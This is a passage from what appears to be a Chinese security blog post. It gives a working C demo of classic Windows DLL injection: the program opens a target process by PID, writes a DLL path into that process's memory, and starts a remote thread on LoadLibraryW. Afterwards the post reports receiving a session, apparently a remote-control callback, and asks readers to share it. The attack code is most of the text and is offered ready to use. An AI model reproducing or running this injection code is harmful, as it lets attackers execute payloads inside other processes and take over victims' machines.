 demo 如下

```
#include <Windows.h>
#include <stdio.h>

int main(int argc, char \*argv\[\])
{
  HANDLE processHandle;
  PVOID remoteBuffer;
  
  const wchar\_t dllPath\[\] = L"C:\\\\Users\\\\Administrator\\\\Desktop\\\\64.dll";

  printf("Injecting DLL to PID: %i\\n", atoi(argv\[1\]));
  processHandle = OpenProcess(PROCESS\_ALL\_ACCESS, FALSE, DWORD(atoi(argv\[1\])));
  remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof dllPath, MEM\_COMMIT, PAGE\_READWRITE);
  WriteProcessMemory(processHandle, remoteBuffer, (LPVOID)dllPath, sizeof dllPath, NULL);
  PTHREAD\_START\_ROUTINE threatAddress = (PTHREAD\_START\_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
  CreateRemoteThread(processHandle, NULL, 0, threatAddress, remoteBuffer, 0, NULL);
  CloseHandle(processHandle);
  return 0;
}
```

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08U5s2jicY9C9S1ghzlpgEDTZmNKTEfYibV5DBWIXt7N9u5WFEciazj1MWxo8OQDaoJxhLGdg6wG9mTgA/640?wx_fmt=png)

收到会话

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08U5s2jicY9C9S1ghzlpgEDTZVdCYGmMghDXNoibATyZibghhIUbHxsSovA7mqZHovxqniaZS3MrDmib1FA/640?wx_fmt=png)

觉得有用的点个在看、转发，持续更新..